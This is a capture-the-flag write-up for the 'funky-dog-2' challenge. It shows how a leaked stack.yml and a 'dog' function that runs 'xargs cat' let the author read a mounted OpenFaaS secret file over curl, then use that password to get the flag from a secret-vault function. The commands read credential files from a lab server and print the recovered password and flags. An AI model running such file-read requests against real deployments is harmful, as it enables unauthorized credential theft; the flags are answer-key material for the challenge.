 # funky-dog-2

## Description:

For this challenge we were given a url to a OpenFaaS function, along with the description:

---

We found the ip address Billy is using for his openfaas functions from the git repo.
It seems he made a new function called secret-vault:

[http://129.241.209.104:8080/function/secret-vault](http://129.241.209.104:8080/function/secret-vault)

Can you retrive his secret from the vault?

_Note: /ui/\* is NOT within scope_

---

Visting the site we get a 200 HTTP OK response with the text:

```
exit status 1
Traceback (most recent call last):
  File "/home/app/index.py", line 19, in <module>
    ret = handler.handle(st)
  File "/home/app/function/handler.py", line 15, in handle
    username, password = req.split(":")
ValueError: not enough values to unpack (expected 2, got 1)
```

OpenFaaS is mentioned in the description and the git repo from the previous challenge, so what is it? OpenFaaS is a open source serverless program that can run **any** CLI binary (with Docker) or function's written in languages like Python, Go, Javascript, etc..
To invoke a function in OpenFaaS we can make a POST request to the URL. Looking at the response from earlier, we can asume that the function wants an username and a password like this: "USERNAME:PASSWORD". We can try:

```bash
❯ curl -X POST http://129.241.209.104:8080/function/secret-vault -d 'username:password'
No you! Wrong password or username.
```

We have the username form the previous challenge (the flag of funky-dog-1), so we need a password. Since Billy leaked his "secret" username in his repo, maybe we can find something else that we can use.

Looking through his repo we can see what other functions he is running on OpenFaaS in the stack.yml file:

```yaml
provider:
  name: openfaas
  gateway: http://127.0.0.1:19999

functions:
  echo:
    lang: dockerfile
    handler: ./echo
    image: functions/faas-echo:latest
  dog:
    lang: dockerfile
    handler: ./Tester/dog
    image: functions/faas-dog:latest
    secrets:
      - secret-password
  hello-openfaas:
    lang: python3
    handler: ./hello-openfaas
    image: hello-openfaas:latest
```

Billy is mounting a secret to the "dog" function. Reading the [documentation](https://docs.openfaas.com/reference/secrets/) for OpenFaaS about secrets, we know that the secret is read in the Docker-container file-system from the location: "/var/openfaas/secrets/secret-name".

All the functions running on OpenFaaS can be accessed with the endpoint: "DOMAIN/function/NAME OF FUNCTION".
Trying [http://129.241.209.104:8080/function/dog](http://129.241.209.104:8080/function/dog) we only get 200 OK response and no text.

Next we can find out what the "dog" function actually does:

```bash
❯ cat Tester/dog/Dockerfile
FROM openfaas/classic-watchdog:0.18.8 as watchdog

FROM alpine:3.11

COPY --from=watchdog /fwatchdog /usr/bin/fwatchdog
COPY /dog /home/app/dog
RUN chmod +x /usr/bin/fwatchdog

ENV fprocess="xargs cat"

RUN addgroup -g 1000 -S app && adduser -u 1000 -S app -G app
USER 1000

CMD [ "/usr/bin/fwatchdog"]
```

The function is running the Linux cat command! Now we can try to cat the contents of the "secret-password" mounted in the container.

```bash
❯ curl -X POST http://129.241.209.104:8080/function/dog -d '/var/openfaas/secrets/secret-password'
wellILoveDogsNotGonnaLie
```

Great! Now we have the username and password. Invoking the "secret-vault" function with the correct credentials gives us the flag:

```bash
❯ curl -X POST http://129.241.209.104:8080/function/secret-vault -d 'KID20{w1th_5_l0ng_sp3c14l_u5s3rn4m3_n0b0dy_c5n_h4ck_m3}:wellILoveDogsNotGonnaLie'
My little secret: KID20{4ll_my_c0d3_i5_fr0m_s74ck0v3rfl0w}
```
